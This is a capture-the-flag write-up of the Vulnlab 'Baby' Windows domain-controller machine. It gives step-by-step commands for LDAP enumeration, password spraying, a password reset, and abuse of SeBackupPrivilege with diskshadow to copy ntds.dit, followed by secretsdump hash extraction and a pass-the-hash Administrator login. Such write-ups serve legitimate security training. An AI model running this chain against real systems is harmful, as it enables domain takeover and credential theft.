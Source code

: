 ```yaml
---
layout: writeup
category: Vulnlab
chall_description: User: Look into anonymous LDAP Access. Root: Look at user privileges.
points: 
solves: 
tags: windows
date: 2024-09-05
comments: true
---
```


This is my write-up for the Baby machine from Vulnlab.

# Enumeration

We started executing a full port scan on the host.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ sudo nmap -v -sS -Pn -p- 10.10.98.130 --min-rate=300 --max-rate=500
```

![Untitled](baby/Untitled.png)

Now, we execute a port scan only on the open ports that we have found before.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ sudo nmap -vv -sV -sC -Pn -p 53,88,135,139,389,445,464,593,636,3268,3269,3389,5357,5985,9389 -oA nmap/baby 10.10.98.130
```

![Untitled](baby/Untitled%201.png)

![Untitled](baby/Untitled%202.png)

We found the machine name, the domain, and the domain controller name, so we write it into our local hosts file.

![Untitled](baby/Untitled%203.png)

Now, we execute the `netexec` tool to enumerate the SMB service. We could verify that we can log into the SMB as anonymous.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl --shares
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl -u "" -p "" --shares
```

![Untitled](baby/Untitled%204.png)

But we couldn’t list any shares anonymously. So we try enumerating users with `kerbrute`, also without success. Finally, we enumerate the LDAP service using the `ldapsearch` tool. We could enumerate the accounts that were created on the host, and the default password when a new user is created.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ ldapsearch -H ldap://10.10.98.130 -x -b "DC=baby,DC=vl"
```

![Dev Users](baby/Untitled%205.png)

Dev Users

![IT Users](baby/Untitled%206.png)

IT Users

The Teresa.Bell user has a description field saying “Set the initial password to BabyStart123!”.

![Untitled](baby/Untitled%207.png)

We save those all users found on a list of users, after filtering to generate a clean output with only the correct usernames.

# Exploitation

First, we check if the `Teresa.Bell` has the initial password like in her description field, but we were not successful. So we execute the password spraying technique to verify if any other user has the initial password set.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl -u users.txt -p 'BabyStart123!' --continue-on-success
```

![Untitled](baby/Untitled%208.png)

We could verify the `Caroline.Robinson` user did not change her password. Using the `smbpasswd` tool, we can change the initial password and redefine to one of our choice.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─[☢] $ smbpasswd -r baby.vl -U caroline.robinson
```

![Untitled](baby/Untitled%209.png)

Now, we check if the password really has been changed.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl -u caroline.robinson -p 'hacker@123'
```

![Untitled](baby/Untitled%2010.png)

We were able to change the `caroline.robinson`’s password. Now we can log into WinRM service as this user.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ evil-winrm -i 10.10.98.130 -u caroline.robinson -p 'hacker@123'
```

![Untitled](baby/Untitled%2011.png)

## Privilege Escalation

Checking the privileges for `caroline.robinson` account, we verify she has the `SeBackupPrivilege` enabled.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> whoami /priv
```

![Untitled](baby/Untitled%2012.png)

With this privilege, we can save the SAM database and de SYSTEM file to retrieve the NTLM hashes for the users.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> reg save hklm\sam sam
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> reg save hklm\system system
```

![Untitled](baby/Untitled%2013.png)

Now we download these files to our local machine.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> download sam
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> download system
```

![Untitled](baby/Untitled%2014.png)

We were able to retrieve the NTLM hashes for the users locally using the secretsdump impacket tool.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ impacket-secretsdump -sam sam -system system LOCAL
```

![Untitled](baby/Untitled%2015.png)

We could not log into WinRM using the Administrator’s hash retrieved before, because this hash is for the local Administrator user, not the Administrator DC user. So we have to retrieve the administrator DC user that is saved in the ntds.dit file. First, we try to create a ***shadow copy*** of the `C:` drive using the `vssadmin` tool, but we do not have permissions to execute it. We tried some other techniques without success.

Searching on the Internet, we could found a technique to retrieve the ntds.dit file through diskshadow:

[Dumping Domain Controller Hashes Locally and Remotely | Red Team Notes](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration)

First, we create a diskshadow script called `script.txt`  with the content and upload it to the host:

```
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

```bash
# uploading the file
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> upload /home/th3g3ntl3m4n/vulnlab/baby/www/script.txt
```

Now, we execute the diskshadow tool to execute our script.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> diskshadow /s script.txt
```

![Untitled](baby/Untitled%2016.png)

Now we copied the `ntds.dit` file from the new drive, (`E:`), created above.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> robocopy /b E:\Windows\ntds . ntds.dit
```

![Untitled](baby/Untitled%2017.png)

Finally, we download the `ntds.dit` file to our local machine and execute the secretsdump tool to retrieve the Administrator’s DC hash.

![Untitled](baby/Untitled%2018.png)

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ impacket-secretsdump -sam sam -system system -ntds ntds.dit LOCAL
```

![Untitled](baby/Untitled%2019.png)

We now just log into the WinRM service as Administrator using the ***Pass-The-Hash (PTH)*** technique.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ evil-winrm -i 10.10.98.130 -u Administrator -H ee4457ae59f1e3fbd764e33d9cef123d
```

![Untitled](baby/Untitled%2020.png)